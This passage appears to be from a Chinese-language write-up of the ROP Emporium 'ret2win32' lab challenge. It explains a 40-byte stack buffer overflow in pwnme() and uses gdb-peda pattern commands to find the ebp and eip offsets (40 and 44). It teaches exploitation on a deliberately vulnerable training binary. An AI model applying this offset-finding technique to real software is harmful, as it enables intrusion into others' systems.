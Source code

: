 ```
   0x0804867c <+35>:    add    esp,0x10
   0x0804867f <+38>:    nop
   0x08048680 <+39>:    leave  
   0x08048681 <+40>:    ret    
End of assembler dump.
```
函数 `pwnme()` 是存在缓冲区溢出的函数，它调用 `fgets()` 读取任意数据，但缓冲区的大小只有 40 字节（`0x0804864a <+84>:    lea    eax,[ebp-0x28]`，0x28=40），当输入大于 40 字节的数据时，就可以覆盖掉调用函数的 ebp 和返回地址：
```
gdb-peda$ pattern_create 50
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
gdb-peda$ r
Starting program: /home/firmy/Desktop/rop_emporium/ret2win32/ret2win32 
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xffffd5c0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
EBX: 0x0 
ECX: 0xffffd5c0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
EDX: 0xf7f90860 --> 0x0 
ESI: 0xf7f8ee28 --> 0x1d1d30 
EDI: 0x0 
EBP: 0x41304141 ('AA0A')
ESP: 0xffffd5f0 --> 0xf7f80062 --> 0x41000000 ('')
EIP: 0x41414641 ('AFAA')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414641
[------------------------------------stack-------------------------------------]
0000| 0xffffd5f0 --> 0xf7f80062 --> 0x41000000 ('')
0004| 0xffffd5f4 --> 0xffffd610 --> 0x1 
0008| 0xffffd5f8 --> 0x0 
0012| 0xffffd5fc --> 0xf7dd57c3 (<__libc_start_main+243>:       add    esp,0x10)
0016| 0xffffd600 --> 0xf7f8ee28 --> 0x1d1d30 
0020| 0xffffd604 --> 0xf7f8ee28 --> 0x1d1d30 
0024| 0xffffd608 --> 0x0 
0028| 0xffffd60c --> 0xf7dd57c3 (<__libc_start_main+243>:       add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414641 in ?? ()
gdb-peda$ pattern_offset $ebp
1093681473 found at offset: 40
gdb-peda$ pattern_offset $eip
1094796865 found at offset: 44
```
缓冲区距离 ebp 和 eip 的偏移分别为 40 和 44，这就验证了我们的假设。

